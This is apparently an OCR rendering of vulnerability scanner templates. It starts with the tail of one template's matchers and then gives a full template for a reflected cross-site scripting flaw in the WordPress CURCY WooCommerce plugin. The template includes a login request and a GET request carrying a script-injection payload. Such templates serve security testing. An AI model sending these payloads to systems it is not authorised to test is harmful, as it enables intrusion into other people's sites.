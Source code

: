 **Type - word**
- part - body
- words
    1. text/javascript">alert(/XSS/)\</script>
    2. wp-analytify
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 404

---
# WordPress CURCY - Multi Currency for WooCommerce \<2.1.18 - Cross-Site Scripting
## Description
- WordPress CURCY - Multi Currency for WooCommerce 2.1.18 does not escape some generated URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,curcy,wpscan
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wc-reports&a">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. wc-reports&a\">\<script>alert(1)\</script>">All

